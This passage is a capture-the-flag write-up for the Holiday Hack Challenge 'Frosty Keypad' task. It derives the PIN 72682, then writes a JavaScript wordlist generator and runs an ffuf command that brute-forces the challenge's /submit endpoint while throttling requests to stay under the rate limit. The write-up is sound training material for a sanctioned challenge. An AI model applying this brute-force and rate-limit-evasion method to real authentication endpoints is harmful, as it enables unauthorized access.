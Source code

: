 Lets put that to the test and see what letters we find.

2:6:1 -> S
4:19:3 -> A
6:1:1 -> N
3:10:4 -> T
14:8:3 -> A

Code = SANTA = 72682

The letters SANTA correspond with the alphabetic values of the numbers we found from the fingerprints on the keypad. This gives us the PIN code `72682`. Silver done!
### Gold
To get the gold achievement, we have to find another code for the keypad. We already know that the PIN can only have the numbers 2, 6, 7, and 8. This means that if we assume the second combination is also 5 digits, that there are 1024 total combinations (4 possible values ^ 5 digits).

Looking at the network in dev tools, it seems that each time we submit a PIN code, it sends a request to the server at `https://hhc24-frostykeypad.holidayhackchallenge.com/submit`. Thos means we can fuzz for the other key code by brute forcing the combination and looking for a 200 response status. We will use ffuf to fuzz the PIN, but you could also use Burp Intruder's cluster bomb attack to do the same thing.

Lets first create a wordlist with all the combinations. I made the following javascript code to do that.
```js
const numbers = ["2", "6", "7", "8"];
numbers.forEach(num1 => {
    numbers.forEach(num2 => {
        numbers.forEach(num3 => {
            numbers.forEach(num4 => {
                numbers.forEach(num5 => {
                    console.log(`${num1}${num2}${num3}${num4}${num5}`);
                });
            });
        });
    });
});
```

Run the file and save the output to a text file.
```
node combinations.js > combinations.txt
```

Now we can use ffuf to fuzz the `/submit` url and find the right combinations from our wordlist `combinations.txt`. The PIN code is sent via a JSON body for each request in the form of `{ "answer": "12345" }`. We can use the `-rate` flag to limit the rate of our fuzzing to 1 request per second to get around the rate limit of the server. With 1024 possible 5 digit combinations this should take approximately 17 minutes.

```
ffuf -w ./combinations.txt -rate 1 -X POST -H "Content-Type:application/json" -d '{"answer":"FUZZ"}' -u https://hhc24-frostykeypad.holidayhackchallenge.com/submit -mc 200
```
